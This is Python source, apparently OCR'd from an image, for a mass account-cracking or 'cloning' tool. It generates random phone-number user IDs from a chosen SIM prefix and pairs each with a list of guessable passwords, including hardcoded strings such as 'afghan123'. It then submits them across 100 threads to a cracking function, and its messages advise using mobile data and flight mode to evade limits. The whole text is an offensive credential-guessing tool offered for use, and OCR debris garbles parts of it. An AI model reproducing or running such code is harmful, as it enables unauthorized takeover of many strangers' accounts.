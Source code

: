 
#_______
def snigdho_pk():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    snigdho_Hasan(logo)
    snigdho_Hasan(f' [{xr}^{x}] Example>: {xr}9377,9370,9374,9379,9378.ETC{x}')
    snigdho_Hasan(" ----------------------------------------------------------------------------------------------------")

    code = input(f' [{xr}â– {x}] PUT YOUR SIM CODE : ')
    os.system('clear')
    snigdho_Hasan(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m1000, \x1b[38;5;208m2000, \033[0;92m5000 ] \n\033[0;95mâ•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â•â• \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    snigdho_Hasan(logo)
    passx = 0
    HamiiID = []
    snigdho_Hasan("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {Sabir+Sabir} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=100) as manshera:
        clear()
        tl = str(len(user))
        snigdho_Hasan('\033[1;97m====================================================')
        snigdho_Hasan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        snigdho_Hasan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        snigdho_Hasan(f'\033[0;97m[{xr}^{x}]\033[0;93m USE YOUR MOBILE DATA ')
        snigdho_Hasan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        snigdho_Hasan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper Fast Speed Cloning')
        snigdho_Hasan('\033[1;97m====================================================')
        for love in user:
            pwx = [love[3:],code+love,love[1:],'khankhan','afghan1122','Afghan12345','afghan123','khan123456','i 100200','500 600','500 9']
            uid = code+love
            for snigdho in HamiiID:
                pwx.append(snigdho)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} --------------------------------------------------------------------------------------------------------------------------------------------------------------------------")
